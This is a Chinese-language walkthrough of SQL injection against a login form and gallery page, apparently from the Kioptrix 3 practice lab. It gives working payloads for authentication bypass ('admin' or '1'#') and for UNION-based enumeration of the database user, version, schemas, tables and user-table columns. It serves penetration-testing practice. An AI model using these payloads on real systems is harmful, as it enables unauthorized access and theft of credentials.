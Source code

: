 <1> 单引号。

```bash
email=admin'&pass=1234&submit=Login&submitted=TRUE（报错：Query: SELECT * FROM users WHERE email='admin'' AND pass='356a192b7913b04c54574d18c28d46e6395428ab' AND active IS NULL

得出结论：sql 语句大概是 select * from users where email='' and pass='' and ?。
```

<2>尝试构建使得不报错。

```bash
#注释掉后面的。
email=admin' #（不报错）
```

<3>判断能否恶意修改。

```bash
email=admin' or '1'#  (登录成功)
得出结论：sql 语句能被恶意修改带入数据库执行
```

<4> 枚举，判断数据库查了几列数据用于后面 union 拿数据。

```bash
email=admin' union select 11,22,33,44,55,66,77,88 #
email=admin' union select 11,22,33,user(),55,66,77,88 #
(回显结果：
database() ch16，
user()  root@localhost)
@@version   5.1.54
```

<5>查库

```bash
email=admin' union select 11,22,33,group_concat(schema_name),55,66,77,88 from information_schema.schemata#
http://kioptrix3.com/gallery/gallery.php?id=666 union select 11,22,group_concat(schema_name),44,55,66 from information_schema.schemata#
（回显结果：information_schema,ch16,mysql）
```

<6>查表

```bash
email=admin' union select 11,22,33,group_concat(TABLE_NAME),55,66,77,88 from information_schema.TABLES where TABLE_SCHEMA=database()#
（回显结果：users）
```

<7>查 users 表的字段

```bash
?id=666 union select 11,22,group_concat(column_name),44,55,66 from information_schema.COLUMNS where TABLE_SCHEMA=database() and TABLE_NAME='gallarific_users' #
(回显结果：user_id,first_name,last_name,email,pass,user_level,active,registration_date)
```
